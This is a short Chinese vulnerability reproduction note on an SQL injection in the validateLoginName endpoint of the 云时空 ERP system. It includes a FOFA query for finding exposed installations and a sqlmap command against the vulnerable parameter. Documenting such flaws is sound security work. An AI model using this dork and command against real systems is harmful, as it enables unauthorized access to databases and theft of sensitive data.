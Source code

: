 # 云时空 社会化商业ERP系统 validateLoginName SQL注入漏洞

## 漏洞描述

云时空 社会化商业ERP系统存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
云时空 社会化商业ERP系统
```

## FOFA

```
title="云时空社会化商业ERP"
```

## 漏洞复现

登录页面

![image-20220525102459840](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251026873.png)

使用SQLmap验证漏洞

```
sqlmap -u "http://xxx.xxx.xxx.xxx/sys/user/validateLoginName?loginName=admin"
```

![image-20220525103355733](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251033940.png)